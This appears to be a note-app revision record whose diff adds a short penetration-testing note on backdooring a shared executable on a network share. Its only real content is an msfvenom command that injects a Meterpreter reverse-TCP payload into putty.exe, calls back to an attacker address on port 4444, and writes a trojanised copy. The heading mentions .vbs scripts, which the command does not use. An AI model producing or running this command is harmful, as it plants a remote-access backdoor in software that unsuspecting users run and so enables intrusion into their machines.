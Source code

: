 id: aa941c013c4345008700b1fcfd3a0c26
parent_id: f3ffecb783c0440eaae44628de720ac4
item_type: 1
item_id: f2940b64c9b54649b95237336f33db08
item_updated_time: 1657702748581
title_diff: "[]"
body_diff: "[{\"diffs\":[[0,\"account.\"],[1,\"\\\n\\\n## .vbs scripts Backdoor\\\n\\\nWe can inject a backdoor inside a shared executable file in the share. E.g. say **putty.exe** is the shared executable\\\n\\\n`msfvenom -a x64 --platform windows -x putty.exe -k -p windows/meterpreter/reverse_tcp lhost=<attacker_ip> lport=4444 -b \\\"\\\\x00\\\" -f exe -o puttyX.exe`\"]],\"start1\":790,\"start2\":790,\"length1\":8,\"length2\":305}]"
metadata_diff: {"new":{},"deleted":[]}
encryption_cipher_text: 
encryption_applied: 0
updated_time: 2022-07-13T08:59:19.742Z
created_time: 2022-07-13T08:59:19.742Z
type_: 13